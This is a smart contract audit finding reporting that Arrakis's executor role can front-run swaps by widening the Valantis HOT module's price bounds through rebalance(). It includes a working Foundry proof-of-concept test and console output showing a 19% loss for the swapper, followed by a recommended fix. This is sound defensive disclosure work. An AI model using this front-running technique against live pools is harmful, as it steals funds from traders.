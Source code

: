 Tricky Alabaster Panda

high

# Malicious executor can front-run swapper to make them lose funds (by changing liquidity bounds)

## Summary

The `ArrakisStandardManager`'s `rebalance()` function allows the `executor` role to call arbitrary `payloads_`  on the `ValantisHOTModule`  linked to a specific meta-vault.

A malicious executor can use this to widen the liquidity price bounds before a user swaps in the `SovereignPool` , increasing the price impact of their trade, leading to loss of funds.

## Vulnerability Detail
The malicious executor will observe a swap transaction in the mempool, and will front-run it with the following action:

```solidity
bytes memory data = abi.encodeWithSelector(
    IValantisHOTModule.setPriceBounds.selector,
    MIN_SQRT_PRICE, 
    MAX_SQRT_PRICE, 
    0, 
    0
);
bytes[] memory datas = new bytes[](1);
datas[0] = data;

vm.prank(executor);
IArrakisStandardManager(manager).rebalance(vault, datas);

```

This changes the price bounds of the liquidity provided for the AMM swaps, and widens it maximally. 

This increases the price impact of the user’s swap, making them lose more funds- as demonstrated in the PoC.

## Impact

At zero cost, a malicious executor can cause sizeable fund loss to swappers by front-running transactions and changing liquidity bounds. The percentage loss increases with the size of the swap. 

Note that while users can set the `minAmountOut` to mitigate against this attack, the executor can simply adjust the price range to maximally extract funds from the user before it exceeds the slippage set.

## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L303-L315

## Proof of Concept
The PoC demonstrates how a swapper can lose 19% of their token value due to price impact after a malicious executor dilutes the liquidity over a large price range. 

The percentage loss depends on various factors like the pool's liquidity, the size of the swap, and the liquidity bounds set by the malicious executor.

To run the PoC, add the test file to `arrakis-modular/test/integration` and run `forge test --mt test_frontrun_changePriceBounds`

<details><summary>Foundry test</summary>
   
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IArrakisMetaVaultPublic} from
  "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
  "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
  "../../src/interfaces/IArrakisStandardManager.sol";
import {IArrakisLPModule} from
  "../../src/interfaces/IArrakisLPModule.sol";

// Valantis Imports
import {IValantisHOTModule} from
  "../../src/interfaces/IValantisHOTModule.sol";
import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
import {HOT} from "@valantis-hot/contracts/HOT.sol";

// Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

import {
  SovereignPoolConstructorArgs,
  SovereignPoolSwapParams,
  SovereignPoolSwapContextData
} from
  "../../lib/valantis-hot/lib/valantis-core/test/base/SovereignPoolBase.t.sol";

contract PoC_Frontrun_SetPriceBounds is ValantisIntegrationPublicTest {

  address user;
  address receiver;

  uint160 internal constant MIN_SQRT_PRICE = 4295128739;
  uint160 internal constant MAX_SQRT_PRICE = 1461446703485210103287273052203988822378723970342;

  function test_frontrun_changePriceBounds() public {

      // #region mint.
      user = makeAddr("user");
      receiver = makeAddr("receiver");

      deal(address(token0), user, init0);
      deal(address(token1), user, init1);

      address m = address(IArrakisMetaVault(vault).module());

      // Minting initial vault shares
      vm.startPrank(user);
      token0.approve(m, init0);
      token1.approve(m, init1);

      IArrakisMetaVaultPublic(vault).mint(1e18, receiver);
      vm.stopPrank();

      // #endregion mint.

      // #region do a swap.

      address swapper =
          vm.addr(uint256(keccak256(abi.encode("Swapper"))));
      address swapReceiver =
          vm.addr(uint256(keccak256(abi.encode("Swap Receiver"))));

      uint256 amountIn = 500e6;
      bool isZeroForOne = true;

      deal(address(token0), swapper, amountIn);

      vm.prank(swapper);
      token0.approve(address(pool), amountIn);
      
      SovereignPoolSwapParams memory swapParams =
      SovereignPoolSwapParams({
          isSwapCallback: false,
          isZeroToOne: isZeroForOne,
          amountIn: amountIn,
          amountOutMin: 0,
          recipient: swapReceiver,
          deadline: block.timestamp + 2,
          swapTokenOut: isZeroForOne ? address(token1) : address(token0),
          swapContext: SovereignPoolSwapContextData("", "", "", "")
      });

      uint256 snapshot = vm.snapshot();

      vm.prank(swapper);
      (uint256 amountInUsed, uint256 amountOut) = pool.swap(swapParams);
      console.log("[Swap without malicious executor frontrunning]");
      console.log("amountIn: %e", amountIn);
      console.log("amountInUsed: %e", amountInUsed);
      console.log("amountOut: %e", amountOut);

      vm.revertTo(snapshot);
      
      // Frontrun the swap with the attack (makes us get 4.7619047619047578e16- more price impact)
      _rebalance_changeBounds(MIN_SQRT_PRICE, MAX_SQRT_PRICE);
      vm.prank(swapper);
      (uint256 amountInUsed2, uint256 amountOut2) = pool.swap(swapParams);
      console.log("\n  [Swap with malicious executor frontrunning]");
      console.log("amountIn: %e", amountIn);
      console.log("amountInUsed: %e", amountInUsed2);
      console.log("amountOut: %e", amountOut2);

      console.log("\n  Lost funds for swapper: %e ETH (~%d% lost)", amountOut-amountOut2, 100 * (amountOut-amountOut2) / amountOut);
  }

  function _rebalance_changeBounds(uint256 left, uint256 right) internal {
      bytes memory data = abi.encodeWithSelector(
          IValantisHOTModule.setPriceBounds.selector,
          left, 
          right, 
          0, 
          0
      );
      bytes[] memory datas = new bytes[](1);
      datas[0] = data;

      vm.prank(executor);
      IArrakisStandardManager(manager).rebalance(vault, datas);
  }
}
    
 ```
</details>
<details><summary>Console Output</summary>
    
```bash
Ran 1 test for test/integration/H5.t.sol:PoC_Frontrun_SetPriceBounds
[PASS] test_frontrun_changePriceBounds() (gas: 1360540)
Logs:
  [Swap without malicious executor frontrunning]
  amountIn: 5e8
  amountInUsed: 5e8
  amountOut: 2.49688058834343145e17
  
  [Swap with malicious executor frontrunning]
  amountIn: 5e8
  amountInUsed: 5e8
  amountOut: 1.99999999999999289e17
  
  Lost funds for swapper: 4.9688058834343856e16 ETH (~19% lost)

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.26s
```
</details>

## Tool used

Manual Review

## Recommendation

One solution would not allow the `executor` to access the `setPriceBounds`  function.